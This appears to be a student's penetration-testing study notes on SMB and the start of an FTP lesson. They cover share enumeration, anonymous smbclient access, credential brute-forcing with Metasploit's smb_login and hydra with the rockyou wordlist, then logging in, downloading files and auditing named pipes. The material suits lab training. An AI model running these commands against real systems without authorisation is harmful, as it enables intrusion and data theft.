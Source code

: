 ### SMB: Samba 3 ###

Can enumerate shares in <mark style="background: #FF5582A6;">msfconsole</mark>
+ `use auxiliary/scanner/smb/smb_enumshares`

Can connect with `smbclient //IP/Public -N`
+ In the above example it connected to Public with no password
+ can use `get` on a <mark style="background: #ADCCFFA6;">file</mark> to return it to our directory 

### SMB Dictionary Attack ###

Can use a wordlists to attack credentials with <mark style="background: #FF5582A6;">msfconsole</mark>
+ `use auxiliary/scanner/smb/smb_login` 
+ Will test a range of logins and report successful logins 
+ `set rhosts IP`
+ `set pass_file /usr/share/wordlist/metasploit/unix_passwords.txt`
+ `set smbuser USER`

Can also do the same with <mark style="background: #D2B3FFA6;">hydra</mark>
+ `hydra -l admin -P /usr/share/wordlists/rockyou.txt IP smb`

Can now login with <mark style="background: #D2B3FFA6;">smbmap</mark> 
+ `smbmap -H IP -u admin -p password1`
	+ then can use <mark style="background: #D2B3FFA6;">smbclient</mark> with the credentials we got to `-L` shares and see if they are available  

Now you can login with:
+ `smbclient //IP/admin -U admin`
+ will have to type in password 
+ can now <mark style="background: #ADCCFFA6;">download files</mark> 

<mark style="background: #FF5582A6;">Note</mark>:
+ can use `tar -xf FILE` to remove zip and tar

<mark style="background: #BBFABBA6;">Pipes</mark>
+ services talk to each other through pipes
	+ named pipes are known pipes
+ Once we are into SMB, we may be able to get into other services through those pipes if we know the name 
+ Can use msfconsole:
	+ `use auxiliary/scanner/smb/pipe_auditor`
	+ `set smbuser USER`
	+ `set smbpass PASSWORD`
	+ `set rhosts IP`
+ can now see all available pipes

## FTP Lesson ##

### FTP ###

<mark style="background: #FFF3A3A6;">File Transfer Protocol</mark> 
+ Access files remotely from a server

